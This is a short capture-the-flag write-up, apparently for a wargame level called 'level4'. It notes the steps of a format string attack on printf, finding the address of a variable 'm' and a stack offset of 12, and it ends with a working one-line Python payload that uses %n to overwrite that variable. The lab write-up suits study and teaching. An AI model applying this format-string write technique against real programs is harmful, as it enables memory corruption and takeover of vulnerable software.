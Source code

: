 - executable mimick stdin
- we see fgets, not exploitable?
- we see printf, maybe same exploit as before
- we find the addrss of "m" (0x08049810)
- we try and print %x with no arguments
- we our input variates the 12th adress from the beginning
- we craft a payload similar to levle3
- looking like: address of m + 16millions (the int in cmp) spaces + the n formatting with the 12 bytes padding that we found before
- get the flag

Payload:
```
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4
```

Extra context:
https://chat.openai.com/share/672132c7-1d64-474e-af58-614fa751df16

Dogbolt for source:
https://dogbolt.org/?id=b9f0625b-1ccf-4c04-ba81-40bf2a6eb0c0

